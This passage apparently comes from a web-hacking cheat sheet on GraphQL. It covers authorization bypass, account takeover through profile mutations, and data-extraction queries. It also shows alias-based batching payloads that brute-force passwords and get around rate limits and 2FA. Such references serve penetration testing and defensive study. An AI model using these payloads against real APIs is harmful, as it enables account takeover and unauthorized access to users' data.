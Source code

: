 However, alternative methods such as `GET`, or any request that has a content type of `x-www-form-urlencoded`, can be sent by a browser and so may leave users vulnerable to attack if the endpoint accepts these requests. Where this is the case, attackers may be able to craft exploits to send malicious requests to the API.

### Authorization in GraphQL
Many GraphQL functions defined on the endpoint might only check the authentication of the requester but not authorization.

Mutation could even lead to account takeover trying to modify other account data.
```graphql
{
  "operationName":"updateProfile",
  "variables":{"username":INJECT,"data":INJECT},
  "query":"mutation updateProfile($username: String!,...){updateProfile(username: $username,...){...}}"
}
```
**Bypass authorization in GraphQL**

In the below example you can see that the operation is "forgotPassword" and that it should only execute the forgotPassword query associated with it. This can be bypassed by adding a query to the end, in this case we add "register" and a user variable for the system to register as a new user.

![3](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/93bc9e50-d7c5-4a48-8067-b4a67243146a)





## Exploit
### Extract data
```html
example.com/graphql?query={TYPE_1{FIELD_1,FIELD_2}}
```
### Use mutations
Mutations work like function, you can use them to interact with the GraphQL.
```html
# mutation{signIn(login:"Admin", password:"secretp@ssw0rd"){token}}
# mutation{addUser(id:"1", name:"Dan Abramov", email:"dan@dan.com") {id name email}}
```
### GraphQL Batching Attacks
Common scenario:

* Password Brute-force Amplification Scenario
* Rate Limit bypass
* 2FA bypassing

**Query name based batching**
```graphql
{
    "query": "query { qname: Query { field1 } qname1: Query { field1 } }"
}
```
Send the same mutation several times using aliases
```graphql
mutation {
  login(pass: 1111, username: "bob")
  second: login(pass: 2222, username: "bob")
  third: login(pass: 3333, username: "bob")
  fourth: login(pass: 4444, username: "bob")
}
```
